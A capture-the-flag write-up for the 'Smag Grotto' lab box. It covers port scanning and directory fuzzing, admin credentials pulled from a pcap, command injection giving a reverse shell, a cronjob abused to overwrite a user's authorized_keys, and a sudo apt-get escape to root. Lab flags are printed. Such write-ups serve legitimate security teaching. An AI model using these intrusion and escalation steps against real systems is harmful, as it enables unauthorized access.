









## TL;DR

In this challenge we first find `pcap` file, which leads us to secret admin portal with `OS Command` execution ability, that gives us reverse shell as `www-data`.

We move to user `jake` using cronjob that copies file we control to the `authorized_keys` of `jake`.

Lastly, we get root shell using `sudo` on `apt-get`

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `smaggrotto.thm` to my `/etc/hosts`

### Find pcap file which contains credentials for admin portal with RCE capabilities

When we visit the main page, we can see nothing interesting:



So, I went for fuzzing using `ffuf`, and found the endpoint `mail`:
```bash
┌──(agonen㉿kali)-[~/thm/SmagGrotto]
└─$ ffuf -u 'http://smaggrotto.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://smaggrotto.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

index.php               [Status: 200, Size: 402, Words: 69, Lines: 13, Duration: 148ms]
mail                    [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 144ms]
```

I went to `/mail`, and saw the `correspondence` between two developers.



Okay, I downloaded the file and got some pcap file. I opened it with wireshark, and followed the only TCP stream exists on this capture file.


```bash
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0w
HTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

Let's add `development.smag.thm` to our `/etc/hosts` and login to `http://development.smag.thm/login.php` with the credentials:
```bash
helpdesk:cH4nG3M3_n0w
```

This is what we see after login.



I checked for `RCE` using the simple pinging test, which worked



Now, let's paste the penelope payload and grab the shell:



### Use cronjob to override authorized_keys with our key and get ssh as jake

I checked for `/etc/crontab`, and found the next line:
```bash
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```



We have write permissions over the backup file:
```bash
www-data@smag:/opt/.backups$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Jun  4  2020 .
drwxr-xr-x 3 root root 4096 Jun  4  2020 ..
-rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```

So, let's generate private key and public key, and then override the `authorized_keys` of jake, to login as jake.
On our local machine:
```bash
┌──(agonen㉿kali)-[~/thm/SmagGrotto]
└─$ ssh-keygen -t rsa -b 2048 -f ./key -q -N ""
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/SmagGrotto]
└─$ cat key.pub | copy            # this is alias for "xclip -sel clip"
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/SmagGrotto]
└─$ ssh jake@smaggrotto.thm -i ./key
```

Now, we logged in as `jake`, we can grab the user flag



```bash
jake@smag:~$ cat user.txt 
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

### Privilege Escalation to Root using sudo on apt-get

I checked for sudo permissions, we can see we have sudo permissions over `/usr/bin/apt-get`.
```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
Using [https://gtfobins.org/gtfobins/apt-get/](https://gtfobins.org/gtfobins/apt-get/) we can privilege escalate to root

> apt-get update -o APT::Update::Pre-Invoke::=/bin/sh

So, let's execute:
```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```



and the root flag:
```bash
# cat root.txt
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```